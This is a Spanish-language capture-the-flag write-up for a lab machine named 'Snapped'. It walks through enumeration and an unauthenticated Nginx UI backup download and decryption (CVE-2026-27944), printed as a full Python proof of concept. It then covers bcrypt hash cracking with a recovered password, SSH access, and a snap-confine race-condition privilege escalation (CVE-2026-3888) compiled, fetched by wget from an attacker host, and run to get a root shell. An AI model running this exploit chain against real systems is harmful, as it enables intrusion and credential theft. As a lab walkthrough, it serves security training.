---

# Descripcion

Snapped es una máquina Linux de dificultad alta que combina la explotación de una interfaz web vulnerable con técnicas de enumeración y cracking de hashes. Durante la intrusión aprovecharemos una vulnerabilidad en Nginx UI para extraer un backup y obtener credenciales que nos permitirán acceder por SSH. Finalmente, conseguiremos privilegios de root explotando una condición de carrera en snap-confine mediante una vulnerabilidad de escalada de privilegios.

---

# Enumeración

## Nmap

> Comenzamos realizando un escaneo de todos los puertos TCP para identificar los servicios expuestos en la máquina.

```bash
$ nmap -p- --open --min-rate 5000 -Pn -n -sS -v 10.129.36.103

Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-26 04:45 +0200
Initiating SYN Stealth Scan at 04:45
Scanning 10.129.36.103 [65535 ports]
Discovered open port 22/tcp on 10.129.36.103
Discovered open port 80/tcp on 10.129.36.103
Completed SYN Stealth Scan at 04:45, 11.90s elapsed (65535 total ports)
Nmap scan report for 10.129.36.103
Host is up (0.041s latency).
Not shown: 65481 closed tcp ports (reset), 52 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 11.97 seconds
           Raw packets sent: 67598 (2.974MB) | Rcvd: 65510 (2.620MB)
```

### Nmap Script - Version

> Una vez identificados los puertos abiertos, realizamos un segundo escaneo utilizando los scripts por defecto de Nmap y la detección de versiones para obtener más información sobre los servicios.

```bash
$ nmap -p22,80 -sC -sV 10.129.36.103

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4b:c1:eb:48:87:4a:08:54:89:70:93:b7:c7:a9:ea:79 (ECDSA)
|_  256 46:da:a5:65:91:c9:08:99:b2:96:1d:46:0b:fc:df:63 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Snapped \xE2\x80\x94 Infrastructure. Orchestration. Control.
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.99 seconds
```

> Identificamos dos servicios:

- **22/tcp:** SSH (OpenSSH 9.6p1).
- **80/tcp:** HTTP (Nginx 1.24.0).

## Web

> Utilizamos `whatweb` para identificar las tecnologías y posibles componentes utilizados por la aplicación web.

```bash
$ whatweb http://snapped.htb
```



- Web



> Comenzamos realizando una enumeración de subdominios virtuales mediante `gobuster`, ya que el servidor podría estar alojando diferentes aplicaciones bajo el mismo dominio.

```bash
$ gobuster vhost -u http://snapped.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 100 --append-domain
```



> Encontramos un nuevo subdominio. Lo añadimos al fichero `/etc/hosts` para poder acceder a él directamente desde el navegador.



> Al acceder al nuevo subdominio, nos encontramos con un panel de autenticación. Vamos a utilizar `gobuster` para comprobar si existen directorios o rutas interesantes que podamos enumerar.

```bash
gobuster dir -u http://admin.snapped.htb -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 100 --add-slash
```



> Si navegamos por la aplicación utilizando `Burp Suite`, observamos que se realizan peticiones a un directorio llamado `api`.



> Vamos a realizar una nueva enumeración con `gobuster`, esta vez sobre el directorio `api`, para intentar localizar endpoints adicionales.

```bash
gobuster dir -u http://admin.snapped.htb/api -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 100
```



> Encontramos una ruta interesante: `/api/backups`. Si accedemos a ella, se descarga directamente un archivo `.zip`. Lo descomprimimos y nos encontramos con los siguientes archivos.



> Intentamos descomprimir uno de los archivos `.zip`, pero obtenemos un error.



> Vamos a comprobar el tipo de archivo de cada uno de los ficheros para entender por qué no podemos descomprimirlos.

```bash
$ file hash_info.txt ; file nginx-ui.zip ; file nginx.zip
```



> Comprobamos que se trata de ficheros de datos y no de archivos ZIP directamente utilizables. Si buscamos información sobre este comportamiento, encontramos el siguiente artículo:

```text
https://securityaffairs.com/189123/security/critical-nginx-ui-flaw-cve-2026-27944-exposes-server-backups.html
```

> En el artículo se explica que, mediante la vulnerabilidad `CVE-2026-27944`, es posible descargar copias de seguridad de Nginx UI sin necesidad de autenticarse. Además, la vulnerabilidad permite obtener la información necesaria para descifrar los archivos, ya que la respuesta HTTP incluye una cabecera llamada `X-Backup-Security` que contiene la clave y el vector de inicialización (`IV`) codificados en `Base64`.
>
> Como ya hemos conseguido descargar la copia de seguridad, vamos a comprobar las cabeceras de la petición para ver si podemos obtener dicha información.



# Shell como jonathan

## CVE-2026-27944

> Investigando un poco más sobre la vulnerabilidad, encontramos el aviso oficial de seguridad de Nginx UI, donde también se proporciona un `PoC` que podemos utilizar para descargar y descifrar la copia de seguridad.

```text
https://github.com/0xJacky/nginx-ui/security/advisories/GHSA-g9w5-qffc-6762
```

> El siguiente script automatiza el proceso de descarga y descifrado de la copia de seguridad. Para ello, obtiene la clave y el IV de la cabecera `X-Backup-Security` y utiliza el algoritmo `AES-256-CBC` para descifrar los archivos.

```python
#!/usr/bin/env python3

"""
POC: Unauthenticated Backup Download + Key Disclosure via X-Backup-Security
Usage:
  python poc.py --target http://127.0.0.1:9000 --out backup.bin --decrypt
"""

import argparse
import base64
import os
import sys
import urllib.parse
import urllib.request
import zipfile
from io import BytesIO

try:
    from Crypto.Cipher import AES
    from Crypto.Util.Padding import unpad
except ImportError:
    print("Error: pycryptodome required for decryption")
    print("Install with: pip install pycryptodome")
    sys.exit(1)

def _parse_keys(hdr_val: str):
    """
    Parse X-Backup-Security header format: "base64_key:base64_iv"
    Example: e5eWtUkqVEIixQjh253kPYe3cpzdasxiYTbOFHm9CJ4=:7XdVSRcgYfWf7C/J0IS8Cg==
    """
    v = (hdr_val or "").strip()

    # Format is: key:iv (both base64 encoded)
    if ":" in v:
        parts = v.split(":", 1)
        if len(parts) == 2:
            return parts[0].strip(), parts[1].strip()

    return None, None

def decrypt_aes_cbc(encrypted_data: bytes, key_b64: str, iv_b64: str) -> bytes:
    """Decrypt using AES-256-CBC with PKCS#7 padding"""
    key = base64.b64decode(key_b64)
    iv = base64.b64decode(iv_b64)

    if len(key) != 32:
        raise ValueError(f"Invalid key length: {len(key)} (expected 32 bytes for AES-256)")
    if len(iv) != 16:
        raise ValueError(f"Invalid IV length: {len(iv)} (expected 16 bytes)")

    cipher = AES.new(key, AES.MODE_CBC, iv)
    decrypted = cipher.decrypt(encrypted_data)
    return unpad(decrypted, AES.block_size)

def extract_backup(encrypted_zip_path: str, key_b64: str, iv_b64: str, output_dir: str):
    """Extract and decrypt the backup archive"""
    print(f"\n[*] Extracting encrypted backup to {output_dir}")

    os.makedirs(output_dir, exist_ok=True)

    # Extract the main ZIP (contains encrypted files)
    with zipfile.ZipFile(encrypted_zip_path, 'r') as main_zip:
        print(f"[*] Main archive contains: {main_zip.namelist()}")
        main_zip.extractall(output_dir)

    # Decrypt each file
    encrypted_files = ["hash_info.txt", "nginx-ui.zip", "nginx.zip"]

    for filename in encrypted_files:
        filepath = os.path.join(output_dir, filename)
        if not os.path.exists(filepath):
            print(f"[!] Warning: {filename} not found")
            continue

        print(f"[*] Decrypting {filename}...")

        with open(filepath, "rb") as f:
            encrypted = f.read()

        try:
            decrypted = decrypt_aes_cbc(encrypted, key_b64, iv_b64)

            # Write decrypted file
            decrypted_path = filepath.replace(".zip", "_decrypted.zip") if filename.endswith(".zip") else filepath + ".decrypted"
            with open(decrypted_path, "wb") as f:
                f.write(decrypted)

            print(f"    → Saved to {decrypted_path} ({len(decrypted)} bytes)")

            # If it's a ZIP, extract it
            if filename.endswith(".zip"):
                extract_dir = os.path.join(output_dir, filename.replace(".zip", ""))
                os.makedirs(extract_dir, exist_ok=True)
                with zipfile.ZipFile(BytesIO(decrypted), 'r') as inner_zip:
                    inner_zip.extractall(extract_dir)
                    print(f"    → Extracted {len(inner_zip.namelist())} files to {extract_dir}")

        except Exception as e:
            print(f"    ✗ Failed to decrypt {filename}: {e}")

    # Show hash info
    hash_info_path = os.path.join(output_dir, "hash_info.txt.decrypted")
    if os.path.exists(hash_info_path):
        print(f"\n[*] Hash info:")
        with open(hash_info_path, "r") as f:
            print(f.read())

def main():
    ap = argparse.ArgumentParser(
        description="Nginx UI - Unauthenticated backup download with key disclosure"
    )
    ap.add_argument("--target", required=True, help="Base URL, e.g. http://host:port")
    ap.add_argument("--out", default="backup.bin", help="Where to save the encrypted backup")
    ap.add_argument("--decrypt", action="store_true", help="Decrypt the backup after download")
    ap.add_argument("--extract-dir", default="backup_extracted", help="Directory to extract decrypted files")

    args = ap.parse_args()

    url = urllib.parse.urljoin(args.target.rstrip("/") + "/", "api/backup")

    # Unauthenticated request to the backup endpoint
    req = urllib.request.Request(url, method="GET")

    try:
        with urllib.request.urlopen(req, timeout=20) as resp:
            hdr = resp.headers.get("X-Backup-Security", "")
            key, iv = _parse_keys(hdr)
            data = resp.read()
    except urllib.error.HTTPError as e:
        print(f"[!] HTTP Error {e.code}: {e.reason}")
        sys.exit(1)
    except Exception as e:
        print(f"[!] Error: {e}")
        sys.exit(1)

    with open(args.out, "wb") as f:
        f.write(data)

    # Key/IV disclosure in response header enables decryption of the downloaded backup
    print(f"\nX-Backup-Security: {hdr}")
    print(f"Parsed AES-256 key: {key}")
    print(f"Parsed AES IV    : {iv}")

    if key and iv:
        # Verify key/IV lengths
        try:
            key_bytes = base64.b64decode(key)
            iv_bytes = base64.b64decode(iv)
            print(f"\n[*] Key length: {len(key_bytes)} bytes (AES-256 ✓)")
            print(f"[*] IV length : {len(iv_bytes)} bytes (AES block size ✓)")
        except Exception as e:
            print(f"[!] Error decoding keys: {e}")
            sys.exit(1)

        if args.decrypt:
            try:
                extract_backup(args.out, key, iv, args.extract_dir)

            except Exception as e:
                print(f"\n[!] Decryption failed: {e}")
                import traceback
                traceback.print_exc()
                sys.exit(1)
    else:
        print("\n[!] Failed to parse encryption keys from X-Backup-Security header")
        print(f"    Header value: {hdr}")

if __name__ == "__main__":
    main()
```

> Ejecutamos el script contra el subdominio `admin.snapped.htb`, indicando el parámetro `--decrypt` para que realice también el descifrado y la extracción de los archivos.

```bash
$ python3 poc.py --target http://admin.snapped.htb --decrypt
```



## SQLite3

> Una vez ejecutado el script, se genera el directorio `backup_extracted`, donde encontramos los archivos de la copia de seguridad ya descifrados y podemos inspeccionar su contenido.

> Dentro de la carpeta `nginx` encontramos los archivos de configuración de Nginx.



> Si revisamos el contenido de `nginx-ui`, encontramos algo bastante interesante: una base de datos.



> Vamos a comprobar qué información contiene utilizando `sqlite3`.

```bash
$ sqlite3 database.db
```



> Comprobamos que existe una tabla llamada `users`, por lo que vamos a revisar su contenido para buscar posibles credenciales.



```text
admin:$2a$10$8YdBq4e.WeQn8gv9E0ehh.quy8D/4mXHHY4ALLMAzgFPTrIVltEvm
jonathan:$2a$10$8M7JZSRLKdtJpx9YRUNTmODN.pKoBsoGCBi5Z8/WVGO2od9oCSyWq
```
## Bruteforce

> Encontramos dos hashes correspondientes a los usuarios `admin` y `jonathan`. Por su formato, podemos identificar que utilizan `bcrypt`.
>
> Vamos a intentar recuperar las contraseñas mediante `Hashcat`, utilizando el modo `3200` y el diccionario `rockyou.txt`.

```bash
$ hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```



> Conseguimos recuperar la contraseña `linkinpark`, correspondiente al usuario `jonathan`. Vamos a probar estas credenciales para acceder mediante SSH.

```text
user: jonathan
pass: linkinpark
```



# Shell como root

## Enumeracion

> Conseguimos acceder a la máquina mediante SSH con el usuario `jonathan`.
>
> Una vez dentro, comenzamos con la enumeración local para comprobar si el usuario tiene permisos de `sudo`, si existen binarios con el bit `SUID` activado o si encontramos alguna `Linux Capability` interesante.

```bash
$ sudo -l

[sudo] password for jonathan: 
Sorry, user jonathan may not run sudo on snapped.
```

> Comprobamos los binarios que tienen activado el bit `SUID`:

```bash
$ find / -perm -4000 2>/dev/null

/snap/snapd/21759/usr/lib/snapd/snap-confine
/snap/core22/1564/usr/bin/chfn
/snap/core22/1564/usr/bin/chsh
/snap/core22/1564/usr/bin/gpasswd
/snap/core22/1564/usr/bin/mount
/snap/core22/1564/usr/bin/newgrp
/snap/core22/1564/usr/bin/passwd
/snap/core22/1564/usr/bin/su
/snap/core22/1564/usr/bin/sudo
/snap/core22/1564/usr/bin/umount
/snap/core22/1564/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core22/1564/usr/lib/openssh/ssh-keysign
/snap/core22/1564/usr/libexec/polkit-agent-helper-1
/usr/bin/passwd
/usr/bin/fusermount3
/usr/bin/umount
/usr/bin/vmware-user-suid-wrapper
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/xorg/Xorg.wrap
/usr/sbin/pppd
```

> También comprobamos si existen binarios con capacidades especiales:

```bash
$ getcap -r / 2>/dev/null

/snap/core22/1564/usr/bin/ping cap_net_raw=ep
/usr/bin/ping cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin,cap_sys_nice=ep
```

> Observamos que la máquina tiene instalado `snap`. Hay un binario que llama especialmente nuestra atención: `snap-confine`, que aparece entre los ejecutables con el bit `SUID` activado.
>
> Teniendo en cuenta que la máquina se llama `Snapped`, es posible que la escalada de privilegios esté relacionada con este componente. Vamos a comprobar la versión instalada.

```bash
$ snap --version

snap    2.63.1+24.04
snapd   2.63.1+24.04
series  16
ubuntu  24.04
kernel  6.17.0-19-generic
```

> Comprobamos que tenemos instalada la versión `2.63.1` de `snapd`. Si buscamos información sobre esta versión, encontramos una vulnerabilidad de escalada local de privilegios identificada como `CVE-2026-3888`.

## Snap - CVE-2026-3888

> [!CVE-2026-3888]
> **CVE-2026-3888** es una vulnerabilidad de escalada local de privilegios (*Local Privilege Escalation - LPE*) que afecta a `snapd` en Ubuntu.
>
> Permite que un usuario local sin privilegios consiga acceso como `root` aprovechando una interacción entre `snap-confine` y `systemd-tmpfiles`.
>
> La vulnerabilidad permite manipular directorios temporales y aprovechar una condición de carrera (*race condition*) para conseguir que un proceso ejecutado con privilegios de `root` trabaje con archivos y ubicaciones controlados por el atacante.

> Investigando sobre esta vulnerabilidad, encontramos un `PoC` que podemos utilizar para intentar explotar la máquina.

```text
https://github.com/TheCyberGeek/CVE-2026-3888-snap-confine-systemd-tmpfiles-LPE
```

> El repositorio contiene dos variantes del exploit: una basada en `SUID` y otra en `Capabilities`.
>
> En nuestro caso vamos a utilizar la variante `SUID`. Para ello, clonamos el repositorio en nuestra máquina.

```bash
$ git clone https://github.com/TheCyberGeek/CVE-2026-3888-snap-confine-systemd-tmpfiles-LPE
```



> Una vez clonado el repositorio, encontramos los archivos necesarios para ambas variantes. Como vamos a utilizar la versión `SUID`, necesitamos compilar los dos archivos correspondientes a esta variante.

```bash
$ gcc -O2 -static -o exploit exploit_suid.c

$ gcc -nostdlib -static -Wl,--entry=_start -o librootshell.so librootshell_suid.c
```

> Cuando tengamos los dos binarios compilados, necesitamos transferirlos a la máquina vulnerable. Para ello, vamos a levantar un servidor HTTP desde nuestra máquina atacante.

```bash
$ python3 -m http.server 80
```

> Ahora, desde la máquina vulnerable, descargamos ambos archivos.

```bash
$ wget http://10.10.14.119/exploit

$ wget http://10.10.14.119/librootshell.so
```

> Les damos permisos de ejecución para poder utilizarlos.

```bash
$ chmod +x exploit

$ chmod +x librootshell.so
```

## Explicacion script

> Antes de ejecutarlo, vamos a repasar brevemente los pasos que realiza el exploit para conseguir la escalada de privilegios:
>
> 1. **`systemd-tmpfiles` elimina el directorio `.snap` obsoleto dentro de `/tmp`**. En una instalación estándar de Ubuntu, este proceso puede tardar hasta 30 días.
> 2. **El atacante recrea el directorio con contenido bajo su control**, de manera que los archivos que contiene quedan bajo su propiedad.
> 3. **El atacante fuerza una ejecución de `snap-confine` mediante saturación del socket AF_UNIX (*backpressure*)**, con el objetivo de controlar el momento de la operación y ganar la condición de carrera durante la secuencia de *bind-mount* del directorio *mimic*.
> 4. **Las librerías controladas por el atacante se montan dentro del *sandbox* con privilegios de root**, aprovechando la condición de carrera.
> 5. **El atacante sustituye `ld-linux-x86-64.so.2` por código malicioso (*shellcode*)**, que ejecuta las siguientes instrucciones:
>    - `setreuid(0,0)` → establece el UID real y efectivo como `root`.
>    - `execve` → ejecuta un nuevo proceso, por ejemplo, una shell.
> 6. **Al ejecutarse `snap-confine` con el bit `SUID` activado, el código inyectado se ejecuta con privilegios de root**.
> 7. **Finalmente, se crea una bash con el bit `SUID` activado en `/var/snap/firefox/common/`**, permitiendo escapar del *sandbox* y obtener una shell como `root`.

## Privesc

> Ejecutamos el exploit indicando como argumento la librería `librootshell.so`.

```bash
$ ./exploit librootshell.so

================================================================
    CVE-2026-3888 — snap-confine / systemd-tmpfiles SUID LPE
================================================================
[*] Payload: /tmp/librootshell.so (9056 bytes)

[Phase 1] Entering Firefox sandbox...
[+] Inner shell PID: 88654

[Phase 2] Waiting for .snap deletion...
[*] Polling (up to 30 days on stock Ubuntu).
[*] Hint: use -s to skip.
[+] .snap deleted.

[Phase 3] Destroying cached mount namespace...
cannot perform operation: mount --rbind /dev /tmp/snap.rootfs_7XNtOD//dev: No such file or directory
[+] Namespace destroyed.

[Phase 4] Setting up and running the race...
[*]   Working directory: /proc/88654/cwd
[*]   Building .snap and .exchange...
[*]   285 entries copied to exchange directory
[*]   Starting race...
[*]   Monitoring snap-confine (child PID 88809)...

[!]   TRIGGER — swapping directories...
[+]   SWAP DONE — race won!
[*]   ld-linux in namespace: jonathan:jonathan 755
[+]   Poisoned namespace PID: 88809

[Phase 5] Injecting payload into poisoned namespace...
[+]   ld-linux owned by uid 1000 (attacker). Race confirmed.
[*]   Planting busybox...
[*]   Writing escape script → /tmp/sh
[*]   Overwriting ld-linux-x86-64.so.2...
[+]   Payload injected.

[Phase 6] Triggering root via SUID snap-confine...
[*]   snap-confine → snap-confine (SUID trigger)
[*]   Exit status: 0

[Phase 7] Verifying...
[+] SUID root bash: /var/snap/firefox/common/bash (mode 4755)
[*] Cleaning up background processes...

================================================================
  ROOT SHELL: /var/snap/firefox/common/bash -p
================================================================
```

